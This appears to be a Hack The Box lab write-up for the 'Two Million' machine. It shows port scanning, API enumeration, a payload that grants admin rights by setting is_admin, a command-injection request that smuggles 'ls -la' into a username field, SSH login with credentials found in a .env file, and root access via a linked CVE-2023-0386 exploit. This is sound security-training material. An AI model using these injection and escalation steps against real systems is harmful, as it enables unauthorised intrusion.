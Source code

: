 ```yaml
---
title: "HTB: Two Million"
author: "v3l1d"
date: "2024-08-05"
year: "2024"
---
```


![](attachment/d8433fa495034cedbcbde285f3a79d68.png)

## Overview
In this write-up, we document the steps taken to penetrate the `2million.htb` target on Hack The Box. The process includes initial port scanning, domain configuration, API interaction, and the final privilege escalation exploit that achieved root access.


### Port Scan

```shell
 # Nmap 7.94SVN scan initiated Sat Aug 10 10:26:58 2024 as: nmap -sC -sV -A -T4 -Pn -p- -o scan 10.10.11.221
Nmap scan report for 2million.htb (10.10.11.221)
Host is up (0.061s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Hack The Box :: Penetration Testing Labs
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 ```
An initial `Nmap` scan revealed two significant open ports:
- **Port 22 (SSH)**: Running OpenSSH 8.9p1 on Ubuntu.
- **Port 80 (HTTP)**: Hosting an Nginx server redirecting to `2million.htb`.


## Domain Configuration
After identifying `2million.htb` as the primary domain, the hosts file was updated to allow smooth navigation to the web application. Initial exploration led to discovering an invite code generation feature.


![](attachment/cebd9713f29652a2953bbac2f2371ed1.png)

## Invite Code Generation
The API provided an endpoint for generating invite codes. By making POST requests to the `/api/v1/invite/generate` endpoint, invite codes were retrieved, then decoded using `base64`, revealing codes formatted for entry.


``` shell
┌──(kali㉿kali)-[~/HTB]
└─$ curl -X POST \
  http://2million.htb/api/v1/invite/generate \
  -H 'Content-Type: application/json' \
  -d '{}'
{"0":200,"success":1,"data":{"code":"N0VDWEYtQjFWU1UtVDNZSTktMTFMRFc=","format":"encoded"}}                                                                                                                                    
┌──(kali㉿kali)-[~/HTB]
└─$
┌──(kali㉿kali)-[~/HTB]
└─$ curl -X POST \
  http://2million.htb/api/v1/invite/generate \
  -H 'Content-Type: application/json' \
  -d '{}'
{"0":200,"success":1,"data":{"code":"SFlKOUUtSDNQU0ItMEhJTFotMDlIVVU=","format":"encoded"}}                                                                                                                              
┌──(kali㉿kali)-[~/HTB]
└─$ echo "SFlKOUUtSDNQU0ItMEhJTFotMDlIVVU=" | base64 -d          
HYJ9E-H3PSB-0HILZ-09HUU      

```

## API Enumeration
Interacting with the application’s API revealed multiple endpoints under both `user` and `admin` roles. These endpoints included functionalities for user registration, authentication, VPN configuration, and admin-specific actions such as generating and updating user settings.

```shell
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 11 Aug 2024 12:01:01 GMT
Content-Type: application/json
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 800

{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```


![](attachment/a230cdbbd7bab9a39b58ad890523fe96.png)


## Exploiting the Admin API
Utilizing the `/api/v1/admin/settings/update` endpoint, a payload was crafted to update user privileges. By modifying the `is_admin` attribute, admin access was obtained.

```shell
{
	"email": <youremail>,
	"is_admin": 1
}
```

## Command Injection and Directory Access
After acquiring elevated privileges, we leveraged command injection by sending a POST request with a crafted username parameter that allowed shell command execution. This enabled directory listing and file discovery, leading to sensitive information extraction.


```shell
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: application/json
Accept-Encoding: gzip, deflate, br
Referer: http://2million.htb/home
Connection: keep-alive
Cookie: PHPSESSID=bgo6jig411fj3nk8bciqfonpdo
Upgrade-Insecure-Requests: 1
Content-Length: 47

{
"username": "velid; ls -la "
}

-----------------------------------------------------------------
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 11 Aug 2024 18:21:16 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 690

total 56
drwxr-xr-x 10 root root 4096 Aug 11 18:20 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Aug 11 18:20 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views

------------------------------------------------------


```

## Sensitive File Discovery and SSH Access
The `.env` file was accessed, revealing login credentials. Using the credentials inside, SSH access was established with the following command:
Cat the .env file:

![](attachment/76cd033960d09f1f9ebf70f4cbfa5501.png)

Log in ssh with credentials

```shell
ssh admin@10.10.11.221: SuperDuberPass123
```

![](attachment/0127d0b1827447c60fa7afec74c2f32b.png)

### Privilege Escalation (CVE-2023-0386)
The [CVE-2023-0386](https://github.com/xkaneiki/CVE-2023-0386) exploit was used to escalate privileges to root. This exploit enabled full control over the target system, concluding the penetration test with root access.
This CVE will give you root access

![](attachment/3a2cb1f670e1d6bbaa01132a1090bf31.png)


### Flags

```
root:7dc68d17b543edb77d35bc192d63907a
user:f62e9b661ecc6002193860132292c635
```